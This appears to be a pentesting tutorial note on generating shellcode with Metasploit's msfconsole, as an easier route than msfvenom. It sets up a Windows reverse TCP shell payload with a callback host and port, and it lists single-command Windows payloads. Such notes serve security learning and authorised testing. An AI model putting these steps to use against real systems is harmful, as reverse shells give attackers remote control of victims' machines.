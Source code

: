 # Generate Shellcode

An easy way to generate shellcode is by using `msfvenom` or `msconsole`. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. But of course it is the same thing, just different interfaces.

## Msfconsole

In msfconsole you have the keyword `generate` that help us generate shellcode. So first we have to select a payload.

```text
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```text
set LPORT 5555
set LHOST 192.168.0.101
```

Now we genereate the shellcode using the command `generate`.

To see the options use `generate -h`

## Single commands in windows

If you don't have space and only want to execute a single command you can use

```text
use payload/windows/exec

use payload/cmd/windows/generic
```

